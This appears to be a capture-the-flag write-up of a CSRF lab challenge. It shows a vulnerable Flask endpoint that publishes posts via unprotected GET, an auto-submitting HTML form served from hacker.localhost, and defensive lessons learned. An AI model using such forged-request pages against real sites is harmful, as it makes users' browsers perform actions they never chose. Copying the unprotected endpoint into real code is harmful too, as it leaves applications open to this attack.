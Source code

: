 ## 🛡️ Challenge: CSRF Exploitation (challenge.localhost)

### 🔍 Description

The web challenge simulates a blogging platform (`challenge.localhost`) where users can write and publish posts. Only authenticated users can perform sensitive actions like publishing posts. The goal is to **trick the admin (who is logged in)** into publishing their own draft post, which contains the **flag**.

The challenge enforces:

* **Same-Origin Policy (SOP)**: preventing JavaScript from reading or modifying content from other domains.
* A `/publish` endpoint that only works **if the user is logged in**, and the session is stored in cookies.

### 🎯 Objective

Trigger the `/publish` endpoint while the admin is authenticated — **without access to their credentials or session tokens**.

---

## 🧠 Exploit Strategy

This is a **classic CSRF attack**:

> Cross-Site Request Forgery (CSRF) abuses the fact that browsers send cookies automatically with cross-site requests. If a logged-in user visits a malicious site, that site can perform actions **on their behalf** via forged HTTP requests.

Since SOP prevents us from reading the response or stealing the flag directly, our goal is simply to **make the admin publish their draft**. Once published, the flag becomes visible to everyone.

---

## 🧪 Vulnerable Endpoint

```python
@app.route("/publish", methods=["GET"])
def challenge_publish():
    if "username" not in flask.session:
        flask.abort(403, "Log in first!")

    db.execute("UPDATE posts SET published = TRUE WHERE author = ?", [flask.session.get("username")])
    return flask.redirect("/")
```

* Method: **GET** ✅
* Requires: **authenticated session**
* No CSRF token ✅
* Perfect for exploitation

---

## 🧬 Exploit Setup

### 1. Create a malicious CSRF page on `hacker.localhost:1337`

Save this as `index.html` in your working directory:

```html
<!DOCTYPE html>
<html>
  <body>
    <form id="csrfForm" action="http://challenge.localhost/publish" method="GET">
    </form>
    <script>
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>
```

### 2. Serve the file:

```bash
python3 -m http.server 1337
```

Now `http://hacker.localhost:1337/` serves the CSRF payload.

---

## 🧨 Attack Flow

1. Admin is logged in at `http://challenge.localhost`
2. Admin is tricked into visiting `http://hacker.localhost:1337` (either manually or via an image link, post, etc.)
3. `index.html` auto-submits the form to `/publish`
4. The request includes admin’s session cookies (CSRF in action)
5. Admin’s draft is published
6. Visiting `http://challenge.localhost` now reveals the flag

---

## ✅ Result

After the admin visits the malicious page:

```html
<h2>Author: admin</h2>
pwn.college{************}
```

Flag published! 🎉

---

## 🧠 Lessons Learned

* CSRF is **very powerful** when session cookies are used without CSRF protection.
* SOP stops malicious scripts from reading responses — but not from **sending requests**.
* Naming matters — `http.server` looks for `index.html` by default.
* Use **CSRF tokens** and **non-GET methods** for sensitive actions in real applications.
